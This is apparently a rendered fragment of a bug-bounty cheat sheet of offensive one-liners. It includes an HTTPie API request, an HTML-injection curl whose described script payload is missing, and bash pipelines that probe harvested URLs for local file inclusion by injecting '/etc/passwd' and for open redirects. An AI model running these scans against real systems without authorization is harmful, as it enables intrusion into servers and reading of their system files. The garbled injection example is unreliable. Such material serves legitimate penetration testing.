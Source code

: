 Then, paste the base64-encoded request into the “Paste from clipboard” feature in Burp Suite.

## 49. API testing with HTTPie

http [https://target.com/api/v1/users/1](https://target.com/api/v1/users/1) Authorization:'Bearer JWT\_TOKEN'

## 50. HTML injection testing

curl -d '' '[https://target.com/comment.php](https://target.com/comment.php)'

This one-liner sends a POST request with a script tag as the comment parameter. The script tag will be reflected in the response if HTML injection is possible, indicating a potential vulnerability for cross-site scripting (XSS) attacks.

## **Definitions**

This section defines specific terms or placeholders that are used throughout one-line command/scripts.

- 1.1. "**HOST**" defines one hostname, (sub)domain, or IP address, e.g. replaced by `internal.host`, `domain.tld`, `sub.domain.tld`, or `127.0.0.1`.
- 1.2. "**HOSTS.txt**" contains criteria 1.1 with more than one in file.
- 2.1. "**URL**" definitely defines the URL, e.g. replaced by `http://domain.tld/path/page.html` or somewhat starting with HTTP/HTTPS protocol.
- 2.2. "**URLS.txt**" contains criteria 2.1 with more than one in file.
- 3.1. "**FILE.txt**" or "**FILE**`{N}`**.txt**" means the files needed to run the command/script according to its context and needs.
- 4.1. "**OUT.txt**" or "**OUT**`{N}`**.txt**" means the file as the target storage result will be the command that is executed.

---

### **Local File Inclusion**

> @dwisiswant0
> 

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

```

### **Open-redirect**

> @dwisiswant0
> 

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'

```
